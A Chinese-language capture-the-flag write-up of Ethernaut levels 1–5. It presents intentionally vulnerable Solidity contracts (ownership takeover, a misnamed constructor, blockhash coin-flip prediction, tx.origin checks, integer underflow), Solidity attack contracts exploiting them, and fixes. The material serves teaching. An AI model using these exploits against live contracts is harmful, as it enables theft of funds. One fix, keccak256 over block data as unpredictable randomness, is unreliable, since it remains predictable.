

# Ethernaut_WP（1-5）-先知社区

> **来源**: https://xz.aliyun.com/news/17453  
> **文章ID**: 17453

---

# Ethernaut\_WP（1-5）

## 第一关

本人所有题目是把它拉到Remix VM里面做的，效果都是一样。

拿到合约代码，目标是要求获得Fallback合约的所有权，并将其余额减少到0。

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {
    mapping(address => uint256) public contributions;
    address public owner;

    constructor() {
        owner = msg.sender;
        contributions[msg.sender] = 1000 * (1 ether);
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function contribute() public payable {
        require(msg.value < 0.001 ether);
        contributions[msg.sender] += msg.value;
        if (contributions[msg.sender] > contributions[owner]) {
            owner = msg.sender;
        }
    }

    function getContribution() public view returns (uint256) {
        return contributions[msg.sender];
    }

    function withdraw() public onlyOwner {
        payable(owner).transfer(address(this).balance);
    }

    receive() external payable {
        require(msg.value > 0 && contributions[msg.sender] > 0);
        owner = msg.sender;
    }
}
```

审计这个代码，我们可以看到有两个函数涉及到了owner的分配

```
function contribute() public payable {
        require(msg.value < 0.001 ether);
        contributions[msg.sender] += msg.value;
        if (contributions[msg.sender] > contributions[owner]) {
            owner = msg.sender;
        }
    }
```

```
receive() external payable {
        require(msg.value > 0 && contributions[msg.sender] > 0);
        owner = msg.sender;
    }
```

第一个成为owner的条件是要搞到1000eth（contributions[msg.sender] = 1000 \* (1 ether);）。。。。显然有点。。。十分不可能！！

而第二个，就是只要存款大于0就能成为owner，那我们固然选择后者

选择后者就是看怎么样调用它了

Solidity文档中对receive的描述

一个合约最多可以有一个 receive 函数，声明为 receive() external payable { ... } （不带 function 关键字）。 该函数不能有参数，不能返回任何内容，必须具有 external 可见性和 payable 状态可变性。 它可以是虚拟的，可以重写，并且可以有 修改器modifier。

接收函数在调用合约时执行，且没有提供任何 calldata。

对fallback函数的描述

一个合约最多可以有一个 fallback 函数，声明为 fallback () external [payable] 或 fallback (bytes calldata input) external [payable] returns (bytes memory output) （两者均不带 function 关键字）。

该函数必须具有 external 可见性。回退函数可以是虚拟的，可以重写，并且可以有修改器。

如果没有其他函数与给定的函数签名匹配，或者根本没有提供数据且没有 [接收以太函数](https://learnblockchain.cn/docs/solidity/contracts.html#receive-ether-function)，、则在调用合约时执行回退函数。 回退函数始终接收数据，但为了接收以太币，它必须标记为 payable。

而函数withdraw()是可以清空余额的

```
function withdraw() public onlyOwner {
        payable(owner).transfer(address(this).balance);
    }
```

那我们的思路就很明了了，先用contribute，给点当前用户余额，然后我们设置一个不为0的value的值，再将calldata置为空发送交易就可以让owner变成我们了~，再调用withdraw函数清空，这关就挑战完成了

那你可能会有一个疑惑，为什么没有用到fallback函数，但是有点文章却说fallback是考点呢？其实最初版本是用到的下面的这个源码

```
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallback {

  using SafeMath for uint256;
  mapping(address => uint) public contributions;
  address payable public owner;

  constructor() public {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
  }

  fallback() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

就是利用的fallback函数哦~，在calldata为空的情况下，fallback和receive是等价的！

### **修复建议**：

1. 移除 receive() 逻辑

或

在 receive() 内添加 onlyOwner 限制：

```
receive() external payable onlyOwner {
    require(msg.value > 0);
}
```

2. 严格限制 owner 更换条件，例如：

```
function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if (contributions[msg.sender] > contributions[owner] && msg.sender != owner) {
        owner = msg.sender;
    }
}
```

3. **在** **receive()** **函数中加入额外验证**，避免 owner 被轻易修改。

## 第二关

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "@openzeppelin/contracts/math/SafeMath.sol";

contract Fallout {
    using SafeMath for uint256;

    mapping(address => uint256) allocations;
    address payable public owner;

    /* constructor */
    function Fal1out() public payable {
        owner = msg.sender;
        allocations[owner] = msg.value;
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function allocate() public payable {
        allocations[msg.sender] = allocations[msg.sender].add(msg.value);
    }

    function sendAllocation(address payable allocator) public {
        require(allocations[allocator] > 0);
        allocator.transfer(allocations[allocator]);
    }

    function collectAllocations() public onlyOwner {
        msg.sender.transfer(address(this).balance);
    }

    function allocatorBalance(address allocator) public view returns (uint256) {
        return allocations[allocator];
    }
}
```

第二关没啥东西，就是因为合约名字是Fallout，而构造函数叫做Fal1out，因为这个错误，当合约被部署时，构造函数在创建时从未被执行，owner自然也没有更新，因为Fal1out被当作一个普通函数了，从而我们可以多次调用，并且调用一次，合约所有者就是我们自己了。

*在 Solidity 0.4.22 之前，为一个合约定义构造函数的唯一方法是定义一个与合约本身同名的函数。*

在该版本之后，他们引入了一个新的constructor关键字来避免这种错误。\*

*在这个例子中，开发者犯了一个错误，把构造函数的名字弄错了。*

*Contract name -> Fallout**// Constructor name -> Fal1out**// 这样做的结果是，合约从未被初始化，所有者是地址(0)*

*而且我们能够调用**Fal1out**函数，在这一点上，它不是一个构造函数（只能调用一次），而是一个 "普通"函数。*

*这也意味着任何人都可以多次调用这个函数来切换合约的所有者。*

通关条件就是拿到owner

### 修复建议

别敲错代码

## 第三关

接着开始第三关

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {
    uint256 public consecutiveWins;
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor() {
        consecutiveWins = 0;
    }

    function flip(bool _guess) public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
            revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        if (side == _guess) {
            consecutiveWins++;
            return true;
        } else {
            consecutiveWins = 0;
            return false;
        }
    }
}
```

分析合约

我们需要连续猜对十次硬币的正反面才能通关

通过分析合约可以确定\_guess=uint256(blockhash(block.number.sub(1))).div(57896044618658097711785492504343953926634992332820282019728792003956564819968)，那我们不就已经知道怎么去预测了吗，取当前区块的 **前一个区块**（block.number - 1）的 **哈希值**，并将其转换成 uint256 类型。使用 blockhash(block.number - 1) 生成**随机性**

直接上攻击代码（代码来自9C±Void师傅）

```
/// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import './Level3.sol';

contract CoinFlipAttack{
    address target_addr;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    uint256 lastHash;

    constructor(){
        target_addr = 攻击合约地址;
    }
    function attack() public{
        uint256 blockValue = uint256(blockhash(block.number-1));

        lastHash = blockValue;
        uint256 coinFlipResult = blockValue / FACTOR;
        bool side = coinFlipResult == 1 ? true : false;

        CoinFlip(target_addr).flip(side);
    }
}
```

1. 区块链上的所有东西都是公开的，即便是像 "lastHash "和 "FACTOR "这样的私有变量；
2. 区块链中没有真正的 "原生" 随机性，而只有 "伪随机性"。

~~一开始我是写了一个循环的，但是发现需要停几秒,因为要等~~~~lastHash = blockValue~~~~，但是合约代码是没有暂停这个功能的,只能作罢~~

### 修复建议

**使用** **keccak256** **生成随机数**

1. uint256 randomValue = uint256(keccak256(abi.encodePacked(block.timestamp, msg.sender, block.difficulty)));

* block.timestamp（当前时间戳）+ msg.sender（调用者地址）+ block.difficulty（区块难度）。
* 这样计算出的 randomValue 难以预测，攻击者无法提前计算硬币正反面。

2. **使用 Chainlink VRF（真正随机数）**

* blockhash(block.number - 1) 是**伪随机数**，而 **Chainlink VRF** 提供真正的**不可预测随机数**。
* 可以用 Chainlink VRF 取代 blockhash()，提高安全性。

## 第四关

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}
```

代码很短，可以一眼就看到关键点在tx.origin != msg.sender

先了解一下这两个是什么东西

Solidity官方文档解释如下

* msg.sender (address)：消息的发送者（当前调用）
* tx.origin (address)：交易的发送者（完整调用链）

注：msg 的所有成员的值，包括 msg.sender 和 msg.value 可以在每次 **外部** 函数调用中变化。 这包括对库函数的调用。

tx.origin将返回最初发送交易的地址，而msg.sender将返回发起external调用的地址。

写个例子理解一下

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Victim {
    function whoIsCaller() public view returns (address sender, address origin) {
        return (msg.sender, tx.origin);
    }
}

contract Middleman {
    Victim victim;

    constructor(address _victim) {
        victim = Victim(_victim);
    }

    function callVictim() public view returns (address, address) {
        return victim.whoIsCaller();
    }
}
```

第一个合约部署后调用函数如下


第二个合约部署后调用函数如下


可以看到msg.sender已经改变，不再是原来的地址了

那么我们就可以利用这一点进行攻击

直接上攻击代码

```
/// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import './Level4.sol';

contract attack {
    address public owner;
    Telephone telephone;

    constructor (address _telephone) {
        owner=msg.sender;
        telephone = Telephone(_telephone);
    }
    function attacker() public {
        telephone.changeOwner(msg.sender);
    }
}
```

攻击前


攻击后


已经拿到合约所有者。

### **修复建议**

1. **避免使用** **tx.origin** **进行权限验证**

* 直接使用 msg.sender，这样合约调用不会绕过限制：

```
function changeOwner(address _newOwner) public {
    require(msg.sender == owner, "Only owner can change owner");
    owner = _newOwner;
}
```

2. **使用** **onlyOwner** **修饰符**

* 采用 OpenZeppelin 的 **Ownable** 库：

```
import "@openzeppelin/contracts/access/Ownable.sol";

contract Telephone is Ownable {
    function changeOwner(address _newOwner) public onlyOwner {
        transferOwnership(_newOwner);
    }
}
```

## 第五关

继续第五关

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {
    mapping(address => uint256) balances;
    uint256 public totalSupply;

    //初始化
    constructor(uint256 _initialSupply) public {
        balances[msg.sender] = totalSupply = _initialSupply;
    }
	
	//转账代码
    function transfer(address _to, uint256 _value) public returns (bool) {
        require(balances[msg.sender] - _value >= 0);
        balances[msg.sender] -= _value;
        balances[_to] += _value;
        return true;
    }
	
	//返回owner的余额
    function balanceOf(address _owner) public view returns (uint256 balance) {
        return balances[_owner];
    }
}
```

问题出在require(balances[msg.sender] - \_value >= 0);这里

uint256 是无符号整数，不能表示负数。如果 msg.sender 余额不足，balances[msg.sender] - \_value 可能会下溢，变成一个极大的正数，导致 require语句仍然通过。也就是整数下溢。

简单来说就是这样：比如我有两个uint4：1011和0101，相加得到的理应是10000，但是由于uint4只有4位，所以最前面那个1会被省略，变成0000，这就和油量表一样，超过最大值9999.99就回到最小值0000.00一样

同时由于Solidity它这些uint不存在负数，所以就会出现这种溢出的情况，比如0000-1=1111的情况

所以直接向有效地址传21token就ok了



### 修复建议

1、修改 require 语句：

require(balances[msg.sender] >= \_value, "Insufficient balance");

这样可以确保 msg.sender 余额充足，防止整数下溢。

2、使用0.8.0以上的solidity

3、导入Openzeppelin的SafeMath.sol
